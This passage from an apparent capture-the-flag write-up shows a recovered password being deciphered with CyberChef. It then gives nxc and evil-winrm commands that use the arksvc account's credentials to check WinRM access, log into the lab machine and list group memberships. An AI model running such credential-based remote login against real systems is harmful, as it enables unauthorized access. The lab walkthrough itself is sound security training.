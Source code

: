 Putting the acquired information on [CyberChef](https://gchq.github.io/CyberChef/) allows us to decipher the string (Figure 19).

<figure><img src="../../../.gitbook/assets/casc_cyberchef.png" alt=""><figcaption><p>Figure 19: Using CyberChef to decrypt the password.</p></figcaption></figure>

The `arksvc` account has WinRM access, so we can log into the box and enumerate its group memberships (Figure 20).

```bash
# check WinRM access
nxc winrm 10.10.10.182 -u arksvc -p arksvc_pass
# log into the box
evil-winrm -i 10.10.10.182 -u arksvc -p $(cat arksvc_pass)
# list groups
whoami /groups
```

<figure><img src="../../../.gitbook/assets/casc_arksvc_groups.png" alt=""><figcaption><p>Figure 20: Checking WinRM access and, finally, logging into the box!</p></figcaption></figure>
